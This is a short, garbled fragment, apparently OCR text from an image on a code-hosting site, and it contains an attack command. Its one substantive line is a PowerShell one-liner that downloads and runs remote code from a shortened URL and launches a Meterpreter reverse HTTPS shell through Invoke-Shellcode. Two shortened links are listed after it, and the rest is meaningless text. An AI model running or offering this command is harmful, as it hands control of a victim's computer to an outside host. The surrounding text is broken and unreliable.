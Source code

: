 check
=====
GGGHHHJJJ_no

FocusmazmanFocus


RunIEX (New-Object Net.WebClient).DownloadString('http://fur.ly/b357');Invoke-Shellcode -Payload windows/meterpreter/reverse_https -Lport 443 -Force -Lhost Run

http://fur.ly/b357
http://bit.ly/14bZZ0c
